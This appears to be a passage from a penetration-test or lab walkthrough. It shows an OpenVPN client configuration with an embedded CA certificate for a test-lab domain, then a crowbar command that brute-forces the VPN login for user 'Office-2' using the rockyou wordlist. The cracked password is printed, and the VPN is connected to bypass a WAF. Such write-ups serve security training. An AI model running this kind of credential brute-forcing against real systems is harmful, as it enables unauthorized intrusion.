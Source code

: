 ```

script-security 2

up	/etc/openvpn/update-resolv-conf
down	/etc/openvpn/update-resolv-conf

## auth for Office-2 user
auth-user-pass "/opt/openvpn/auth.txt"

resolv-retry infinite
persist-key
persist-tun
comp-lzo

<ca>
-----BEGIN CERTIFICATE-----
MIIEXjCCA0agAwIBAgIJAKYiQCcisQFFMA0GCSqGSIb3DQEBCwUAMHwxCzAJBgNV
BAYTAlJVMQ8wDQYDVQQIEwZNb3Njb3cxDzANBgNVBAcTBk1vc2NvdzERMA8GA1UE
ChMIQ29tYXBhbnkxCzAJBgNVBAsTAklUMRkwFwYDVQQDExBjb21wYW55LnRlc3Qu
bGFiMRAwDgYDVQQpEwdFYXN5UlNBMB4XDTE3MDQwMjE0NDIzMFoXDTI3MDMzMTE0
NDIzMFowfDELMAkGA1UEBhMCUlUxDzANBgNVBAgTBk1vc2NvdzEPMA0GA1UEBxMG
TW9zY293MREwDwYDVQQKEwhDb21hcGFueTELMAkGA1UECxMCSVQxGTAXBgNVBAMT
EGNvbXBhbnkudGVzdC5sYWIxEDAOBgNVBCkTB0Vhc3lSU0EwggEiMA0GCSqGSIb3
DQEBAQUAA4IBDwAwggEKAoIBAQDdcIqS/FA1M8NhiFfiQFKdxUMePwHK2UgmshXS
48Jeshl7qjHAfLQl2Pex83gbNWud9av4yp1H4m3iwGaqTQPaxgOmzoV6vMN3Hnt7
Vk9eqTpGaODFC6IrSrnE9bYL7E90ra0PWHZY9dshup/L+uasg7OrUHHQhXV6e5GR
C0jAmqUp8Wj61DZDuyvkQE8nDUUdxEObUgdZF5dq4aHKkBFL1iC3+f+aSA6//QTM
kNYzrGv2s0cpkZI8zV4ZT+YgXgWMBJfszIU1AFegNLfksgpyR+IP3YjjkQ4s6wQd
HBTkWsLSf4zusgTYkHpG3mP0z4o7/r4RiEywrJidgE5cN2wbAgMBAAGjgeIwgd8w
HQYDVR0OBBYEFONOp29lTyyDD8E1wzF+rOl1LAlcMIGvBgNVHSMEgacwgaSAFONO
p29lTyyDD8E1wzF+rOl1LAlcoYGApH4wfDELMAkGA1UEBhMCUlUxDzANBgNVBAgT
Bk1vc2NvdzEPMA0GA1UEBxMGTW9zY293MREwDwYDVQQKEwhDb21hcGFueTELMAkG
A1UECxMCSVQxGTAXBgNVBAMTEGNvbXBhbnkudGVzdC5sYWIxEDAOBgNVBCkTB0Vh
c3lSU0GCCQCmIkAnIrEBRTAMBgNVHRMEBTADAQH/MA0GCSqGSIb3DQEBCwUAA4IB
AQBYVZ+3ZjvMjOjOk8zgmMWHaf153ptbFf53c1YtxmDFKWbDo7mG0JmN318T+Kh/
/fxNOha1a2WdQ97yPCR8llz08ZIWLm2n38JdhWCuSZPsozYIGOQX1rZ4lj+8T0kb
hF1vr0KOCI6ODTwPEPJwAd9mcdRQK0Jd52WvuvdGQKUC8DPPDo4B2VHAn8KIDIJp
b+mecHvvxGTSzo4k5nz4bdpYit9i9HayvJ3uIjt05jciQkp5bi5YUXEpq0cspNLr
awoYzU/p/oTvFG8sn8EWAl6pPonQUCGka7GRG2Q9Na9QysMG8H5hITZ7d5VngyrJ
vwj14awsaPvMoIgk8C8Zrkuu
-----END CERTIFICATE-----
</ca>

log /var/log/openvpn-client.log
verb 3

Now remove auth-user-pass "/opt/openvpn/auth.txt" and save it on host machine as server.conf and separate the certificate in openvpn.crt

root@kali:~/test# python crowbar.py -s 192.168.101.10/32 -b openvpn --config ~/test/server.conf --username Office-2 -k ~/test/openvpn.crt -C /usr/share/wordlists/rockyou.txt

(store in a another file called pass.txt)
Office-2
starwars

Add back: auth-user-pass "/opt/openvpn/pass.txt"

root@kali:~/test# openvpn --config ~/test/server.conf &
[1] 59639

Now we have access to SITE without the WAF
```